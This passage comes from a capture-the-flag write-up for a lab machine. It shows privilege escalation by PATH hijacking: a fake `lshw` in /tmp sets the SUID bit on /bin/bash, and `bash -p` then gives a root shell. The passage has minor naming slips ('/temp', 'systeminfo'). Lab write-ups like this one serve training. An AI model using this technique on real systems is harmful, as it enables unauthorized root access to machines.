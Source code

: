Lets create our own `lshw` that sets the SUID bit on `/bin/bash` in the `/temp` directory:

```
theseus@ubuntu:/tmp$ cat >> lshw
/bin/chmod 4755 /bin/bash
^C
theseus@ubuntu:/tmp$ chmod +x lshw 
```

Note: I didn't test it but this attack path would likely also work on `fdisk ` and `cat` as well, since no PATH was provided for those commands either.

We can then update the PATH:

```
export PATH=/tmp:$PATH
```

```
theseus@ubuntu:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```

Now lets run `/bin/systeminfo` from `/tmp`, which should execute our malicious `lshw` and set the SUID on `/bin/bash`

```
theseus@ubuntu:/tmp$ /bin/sysinfo
```

Once the script runs we can enter a root shell with:

```
theseus@ubuntu:/tmp$ /bin/bash -p
bash-4.4# whoami
root
bash-4.4# id
uid=1000(theseus) gid=1000(theseus) euid=0(root) groups=1000(theseus),100(users)
```

We can now grab the root.txt flag:

![htb_magic_root_flag.png](../assets/magic_assets/htb_magic_root_flag.png)

Thanks for following along!

-Ryan

--------------------------------------------


